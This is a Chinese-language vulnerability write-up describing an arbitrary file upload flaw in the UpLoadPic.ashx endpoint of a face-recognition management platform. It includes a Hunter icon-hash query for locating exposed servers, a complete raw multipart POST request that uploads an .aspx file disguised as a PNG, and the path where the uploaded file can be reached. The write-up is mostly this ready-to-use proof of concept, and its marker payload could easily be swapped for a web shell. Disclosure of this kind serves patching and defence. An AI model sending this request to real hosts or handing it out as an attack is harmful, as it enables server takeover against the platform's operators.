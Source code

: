 # 脸爱云一脸通智慧管理平台UpLoadPic存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台UpLoadPic存在任意文件上传漏洞。攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/TMb0E4UMwzE5Sufh/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-957942.png)

# 四、漏洞复现
```java
POST /UpLoadPic.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Length: 431
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywt7cEu1eBdibB13u
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="action"

post
------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="myPhoto"; filename="1.aspx"
Content-Type: image/png

<% response.write("FC5E038D38A57032085441E7FE7010B0") %>
------WebKitFormBoundarywt7cEu1eBdibB13u
Content-Disposition: form-data; name="oldName"


------WebKitFormBoundarywt7cEu1eBdibB13u--
```

![1714288574828-15ec00c1-67e4-41b6-99c0-178e1a014b21.png](./img/TMb0E4UMwzE5Sufh/1714288574828-15ec00c1-67e4-41b6-99c0-178e1a014b21-479202.png)

文件上传位置

```java
/images/48884063e99e45ba9fc0fa7e138261021.aspx
```

![1714288605618-a32595ec-d02e-42eb-86d1-11b3e54dd707.png](./img/TMb0E4UMwzE5Sufh/1714288605618-a32595ec-d02e-42eb-86d1-11b3e54dd707-583654.png)



> 更新: 2024-04-28 15:34:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pq3pt0qifwh7x5wo>